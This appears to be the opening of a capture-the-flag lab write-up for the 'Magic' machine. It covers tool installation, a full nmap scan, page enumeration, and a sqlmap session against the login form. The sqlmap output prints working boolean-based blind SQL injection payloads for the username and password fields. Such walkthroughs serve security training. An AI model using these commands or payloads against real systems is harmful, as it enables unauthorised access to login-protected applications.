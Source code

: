 

## Overview

**TL;DR**: SQLi, webshell upload with bypass, EoP via SUID tool using unsecured
PATH.

Install tools used in this WU on BlackArch Linux:

```
pacman -S nmap sqlmap haiti weevely metasploit pwncat
```

## Network enumeration

With a [nmap][nmap] scan be can see only 2 open ports: 80 & 22.

```
# Nmap 7.80 scan initiated Fri Jun 12 13:15:34 2020 as: nmap -sSVC -p- -oA nmap_full 10.10.10.185
Nmap scan report for 10.10.10.185
Host is up (0.021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 12 13:16:00 2020 -- 1 IP address (1 host up) scanned in 25.72 seconds
```

## HTTP Enumeration

Quickly we found a few pages:

- http://10.10.10.185/index.php
- http://10.10.10.185/login.php
- http://10.10.10.185/upload.php (authenticated)

On the login page we can see we have a different behavior when we put of quote
in the username or password and when not. So let's try a SQLi.

## SQL Injection

I used [sqlmap][sqlmap] to quickly identify the injection technique and automate the process.

```
$ sqlmap -u http://10.10.10.185/login.php --method POST --data 'username=admin&password=password' --level 3 --risk 3
...
sqlmap identified the following injection point(s) with a total of 628 HTTP(s) requests:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=admin&password=-2142' OR 8380=8380-- HhVJ

Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-5412' OR 2974=2974-- buTK&password=password
```